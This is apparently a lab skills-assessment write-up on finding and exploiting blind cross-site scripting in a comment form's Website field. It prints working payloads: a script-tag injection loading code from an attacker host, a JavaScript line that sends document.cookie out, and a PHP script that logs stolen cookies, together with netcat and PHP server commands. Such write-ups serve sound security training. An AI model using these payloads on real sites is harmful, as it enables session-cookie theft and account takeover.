 ## Cross-Site Scripting (XSS) - Skills Assessment Write-up


### Objective

The goal of this assessment was to identify and exploit Cross-Site Scripting (XSS) vulnerabilities within the `/assessment` directory of the target application, and to extract sensitive information by leveraging the discovered weakness.


### Reconnaissance

Upon accessing the `/assessment` directory, I was presented with a page that included a **comment submission form**.  

The form contained the following input fields:
- **Comment**
- **Name**
- **Email**
- **Website**

Additionally, there was an option to save user details for later use.

![](screenshots/1.png)


### Initial Testing

I first submitted a benign comment to observe the behavior of the form. The application responded with:

![](screenshots/2.png)

This indicated that while the input was accepted, it would not be displayed to us directly. Instead, the submitted content was likely stored and later rendered on an **administrator-only page**.  

As a result, any XSS payloads would not execute in our own session, but could potentially trigger when viewed by a privileged user (e.g., a moderator).  

Based on this behavior, I focused on testing **Blind XSS**.


### Blind XSS Discovery

Next, I attempted a **Blind XSS attack** by setting up a listener:

```bash
sudo nc -lvnp 80 -s <attacker_ip>
```

I injected payloads using the template `test<script src="http://<attacker_ip>/<field_name>"></script>` into multiple form fields:

![](screenshots/3.png)

The listener confirmed that the **Website** field was vulnerable when the application attempted to load the external resource:

![](screenshots/4.png)


### Exploitation

To exfiltrate cookies from the vulnerable application, I created the following files on my server:

```index.php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```script.js
new Image().src='http://<attacker_ip>/index.php?c='+document.cookie;
```

I then hosted these files using PHP’s built-in server, as Netcat was unable to correctly process the incoming HTTP requests:

```bash
sudo php -S <attacker_ip>:80
```

Finally, I injected the following payload into the Website field to trigger the exploit:

```
test<script src="http://<attacker_ip>/script.js"></script>
```


### Results

The victim browser executed my payload, requested `script.js`, and subsequently sent the cookies to `index.php`, which saved them to `cookies.txt`:

![](screenshots/5.png)


## Conclusion

The Website field of the comment submission form was vulnerable to Blind XSS. By leveraging this issue, I successfully executed arbitrary JavaScript on the victim browser and exfiltrated session cookies, including the assessment flag.

This confirms the presence of a critical XSS vulnerability that could allow attackers to steal sensitive user data and compromise accounts.


### Key Takeaways

- No visible execution occurred for Stored, Reflected, or DOM-based XSS payloads  
- Blind XSS successfully triggered via the **Website** field  
- External script execution enabled cookie exfiltration  
- Captured session data revealed the assessment flag


